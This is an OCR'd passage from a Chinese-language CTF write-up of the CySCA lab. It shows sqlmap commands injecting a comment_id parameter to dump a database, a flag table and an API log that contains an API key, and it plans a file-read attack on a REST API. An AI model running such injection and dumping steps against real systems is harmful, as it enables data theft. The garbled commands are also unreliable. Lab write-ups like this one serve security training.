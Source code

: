 现在我们确认了 sqlmap 和 burp 都正确配置了，接下来就可以把库拖下来了。

```
#> sqlmap r /root/sqlweb3headers proxy=http://localhost:8080 p comment_id
currentdb
current database:    'cysca'

#> sqlmap r /root/sqlweb3headers proxy=http://localhost:8080 p comment_id D
cysca tables
Database: cysca

#> sqlmap r /root/sqlweb3headers
[5 tables]
+---------------------------------------+
| user                                  |
| blogs                                 |
| comments                              |
| flag                                  |
| rest_api_log                          |
+---------------------------------------+

#> sqlmap r /root/sqlweb3headers proxy=http://localhost:8080 p comment_id D
cysca T flag dump
[1 entry]
+----------------------+
| flag                 |
+----------------------+
| CeramicDrunkSound667 |
+----------------------+ 
```

flag: CeramicDrunkSound667

## 0x04 第四题:Hypertextension

* * *

说明：

在缓存控制面板里面找到 flag。

解题:

控制面板是 REST API 的形式，在说明文档里面写了这个 API 有添加文件名然后读取文件内容的功能，也许我们能用这个功能来读取 PHP 源码?

首先需要找到 API key，在上一题里似乎数据库中有个表名叫 rest_api_log,我们用 SQLMAP 把表拖下来看看:

```
#> sqlmap r /root/sqlweb3headers proxy=http://localhost:8080 p comment_id D cysca T rest_api_log dump
Database: cysca
Table: rest_api_log
[4 entries] +++ + +++
| id | method | params
| api_key | created_on | request_uri | +++ + +++
|1 |POST | contenttype=application%2Fpdf&filepath=.%2Fdocuments%2FTop_4_Mitigations.pdf&api_s ig=235aca08775a2070642013200d70097a | b32GjABvSf1Eiqry | 20140221 09:27:20 | \\/api\\/documents |
|2 |GET |_url=%2Fdocuments&id=2
| NULL
|3 |POST | contenttype=text%2Fplain&filepath=.%2Fdocuments%2Frestapi.txt&api_sig=95a0e7dbe06 fb7b77b6a1980e2d0ad7d | b32GjABvSf1Eiqry | 20140221 11:54:31 | \\/api\\/documents |
|4|PUT | _url=%2Fdocuments&id=3&contenttype=text%2Fplain&filepath=.%2Fdocuments%2Frestapi v2.txt&api_sig=6854c04381284dac9970625820a8d32b | b32GjABvSf1Eiqry | 20140221 12:07:43 | \\/api\\/documents\\/id\\/3 | +++ + +++ 
```
